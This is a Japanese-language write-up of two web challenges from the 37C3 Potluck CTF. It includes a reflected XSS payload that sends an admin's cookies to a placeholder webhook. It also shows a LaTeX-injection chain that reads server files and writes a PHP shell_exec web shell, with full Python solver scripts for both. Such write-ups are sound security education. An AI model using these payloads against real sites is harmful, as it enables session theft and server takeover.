




# 37C3 Potluck CTF

## [Web] Encoderchef

Base64 や Hex など、様々なエンコードを行うことができるWebアプリケーションが提供されます。
Admin への報告機能があることから、XSS を引き起こせば良さそうな予感がします。

まず、`/?source` にアクセスすると以下の PHP コードが出力されました。

```php
<?php
header("Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';");

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
    die();
}


$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
    $input = base64_decode($_GET["input"]);

    if($input === false){
        $output = "Invalid input";
    } else {
        switch ($_GET["encoding"]) {
            case "base64":
                $output = base64_encode($input);
                break;
            case "hex":
                $output = bin2hex($input);
                break;
            case "uu":
                $output = convert_uuencode($input);
                break;
            case "url":
                $output = urlencode($input);
                break;
            case "html":
                $output = htmlentities($input);
                break;
            case "binary":
                $output = implode(array_map(function($c) { return sprintf("%08b", ord($c)); }, str_split($input)));
                break;
            case "ascii":
                $output = implode(array_map(function($c) { return ord($c); }, str_split($input)));
                break;
            default:
                $output = "Invalid encoding";
        }
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Encoderchef</title>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1>Encoderchef</h1>
    <div class="content">
        <div class="input">
            <h2>Input</h2>
                <textarea name="input" id="form-input" placeholder="Enter text to encode here"><?php if (isset($input)) echo $input; ?></textarea><br>
        </div>

        <div class="options">
            <div class="oven">
            </div>
            
        <form method="GET">
            <select name="encoding">
                    <option value="base64" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "base64") { echo "selected"; } ?>>Base64</option>
                    <option value="hex" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "hex") { echo "selected"; } ?>>Hex</option>
                    <option value="uu" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "uu") { echo "selected"; } ?>>UU</option>
                    <option value="url" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "url") { echo "selected"; } ?>>URL</option>
                    <option value="html" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "html") { echo "selected"; } ?>>HTML</option>
                    <option value="binary" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "binary") { echo "selected"; } ?>>Binary</option>
                    <option value="ascii" <?php if (isset($_GET["encoding"]) && $_GET["encoding"] == "ascii") { echo "selected"; } ?>>ASCII</option>
            <input id=hidden-input name=input type=hidden>
            <input type="submit" value="Cook!">
            </form>
        </div>

        <div class="output">
        <h2>Output</h2>
        <div class=output-text>
            <?php echo $output; ?>
        </div>
    </div>

    <script>
        var input = document.querySelector("form");
        input.addEventListener("submit", function(e) {
            var input_value = document.getElementById("form-input")
            var hidden_value = document.getElementById("hidden-input")
            hidden_value.value = btoa(input_value.value);
        });
    </script>
    </div>
    <div class="info">
        <a href="/admin">Admin</a>
        <a href="/?source">Source</a>
    </div>
</body>
```

`input` で受け取った入力を `encoding` の値に従って変換するようです。
ここで、`$input` は `input` クエリを base64 デコードした値です。

```php
$input = base64_decode($_GET["input"]);
```

また、この `$input` の値は以下の箇所で `<textarea>` 内にエスケープ無しで展開されます。

```php
<textarea name="input" id="form-input" placeholder="Enter text to encode here"><?php if (isset($input)) echo $input; ?></textarea>
```

以上より、`input` クエリに `</textarea><script>...</script><textarea>` を base64 エンコードした値を当てはめた URL を Admin に踏ませれば良さそうです。

以下の Python スクリプトを実行することで、`WEBHOOK` に指定された URL に FLAG 付きのリクエストが送信されました。

```python
import requests
import base64

URL = "http://challenge11.play.potluckctf.com:31337"
WEBHOOK = "https://your-webhook.example"

payload = base64.b64encode("</textarea><script>location.href='{}?'+document.cookie</script><textarea>".format(WEBHOOK).encode())

res = requests.post(URL + "/admin", json={
    'url': URL + "?encoding=foo&input={}".format(payload.decode())
})
```

Flag: `potluck{uu_make_me_go_crazy}`

## [Web] Santify

クリスマスカードが作成できるWebアプリケーションが提供されました。

説明文にあるように、`$` で数式を囲むことで、PDFLaTeX によって数式が描画されるようです。



通信を観察すると、`$` を利用したカードを生成する際、`/images/renderLaTeX.php` に `POST` リクエストが送信されていました。このリクエストはサーバ側で処理され、数式がレンダリングされた PNG ファイルが返却されるようです。

**リクエスト**
```text
POST /images/renderLaTeX.php HTTP/1.1
Host: challenge15.play.potluckctf.com:31337
...

1+1
```

**レスポンス**
```text
HTTP/1.1 200 OK
...


```

LaTeX Injection のテクニックが使えそうです。ソースコードが提供されていないのでとりあえず `flag` を `\input` で読み込もうとしたところ、以下のメッセージが表示されました。



Flag を取得するには `/app/readflag` を実行する必要があるようです。LaTeX Injection でコマンド実行といえば `\immediate\write18` です。早速実行してみます。



ダメでした。ここで、`cmd` の箇所を見てみると `pdflatex` のオプションとして `-no-shell-escape` が指定されています。これでは `\immediate\write18` を使ってコマンドを実行することができないため、別の方法を探る必要があります。

```text
timeout 10 pdflatex -no-shell-escape -interaction=nonstopmode -output-directory /app/images/q1ikl716c33gm7b9q4nf /app/images/q1ikl716c33gm7b9q4nf/latex.tex
```

とりあえず `\input` でファイルを開けることはわかったので、これをベースに調査を進めてみます。

少しの試行のあと、`\input{/proc/1/cmdline}` を送信すると以下のエラーメッセージが得られました。どうやら、`/app/start.sh` が存在するようです。

```text
...
No file latex.aux.
(/proc/1/cmdline
! Text line contains an invalid character.
l.1 bash^^@
           /app/start.sh^^@
! Text line contains an invalid character.
l.1 bash^^@/app/start.sh^^@
...
```

同様の方法で `/app/start.sh` を開いてみます。なお、`start.sh` には shebang が含まれているので、`\catcode` を使って制御記号として扱わないようにします。

```latex
$
\catcode`\#=12
\input{/app/start.sh}
$
```

これを送ると、レスポンスとして以下の画像が得られました。


`/app` に `main-server.js` が存在することがわかりました。この時点では予想に過ぎませんが、これが `renderLaTeX.php` を提供しているサーバの実体だと考えられます。

次に、`/app/main-server.js` の内容を取得することを目指します。
これまでと同様に `\input` を使ってやれば良いように思えますが、JavaScript ファイル内には `{` や `}` などの記号が大量に使用されており、エスケープすることが困難でした (コンテスト中にはそのような方法は見つけられませんでした)。

別のアプローチとして、以下の文字列を `renderLaTeX.php` に送ることで `/images/<ランダムな文字列>/foo.txt` に `/app/main-server.js` の内容を書き出すことができます。この `ランダムな文字列` はレスポンスされる画像ファイルの `src` から確認することができます。

```latex
1+1$

\newwrite\myfile
\immediate\openout\myfile=foo.txt
\newread\inputfile
\openin\inputfile=/app/main-server.js
\loop\unless\ifeof\inputfile
    \read\inputfile to \fileline
    \immediate\write\myfile{\fileline}
\repeat
\closein\inputfile
\immediate\closeout\myfile

$1+1
```



`foo.txt` にアクセスすると、以下の JavaScript コードが出力されていました (一部抜粋)。

```js
...
import php from "http-php";
...
app.get(
  ["/static/*", "/images/*", "/frontend/build/*", "/php/*"],
  async (req, res) => {
    try {
      let p = path.join(__dirname, req.path);
      await fs.access(p);
      if (p.endsWith(".php")) {
        let php_res = await php({
          file: p,
          timeout: 1000,
          cwd: path.dirname(p),
          php: php_path,
        })(req);
        res.send(php_res.body || php_res.err);
      } else {
        res.sendFile(p);
      }
    } catch (e) {
      console.log(e);
      res.send("404 Not Found");
    }
  }
);
...
```

どうやら、`/static/*` や `/images/*` に該当するリクエストのうち、パスが `.php` で終端していれば `http-php` によって処理されるようです。

ここで、以下の文字列を `renderLaTeX.php` に POST することで、`/app/images/<ランダムな文字列>/solve.php` に `<?php echo shell_exec('/app/readflag');?>` を書き込みます。

```latex
1+1$

\newwrite\myfile
\immediate\openout\myfile=solve.php
\immediate\write\myfile{<?php echo shell_exec('/app/readflag');?>}
\immediate\closeout\myfile

$1+1
```

このリクエストに対するレスポンスとして得られたランダムな文字列を利用し、`/images/<ランダムな文字列>/solve.php` にアクセスすると、`http-php` によって処理されるリクエストの条件が全て満たされるため `shell_exec('/app/readflag')` が実行され、Flag が得られました。

ソルバーは以下の通りです。

```python
import requests

URL = "http://challenge15.play.potluckctf.com:31337"

payload = r"""1+1$

\newwrite\myfile
\immediate\openout\myfile=solve.php
\immediate\write\myfile{<?php echo shell_exec('/app/readflag');?>}
\immediate\closeout\myfile

$1+1
"""

res = requests.post(URL + "/images/renderLaTeX.php", 
    headers={
        "Content-Type": "text/plain"
    },
    data=payload
)

rand = res.text.split("/")[2]

res = requests.get(URL + "/images/{}/solve.php".format(rand))
print(res.text)
```

Flag: `potluck{christmas_brings_the_categories_together}`
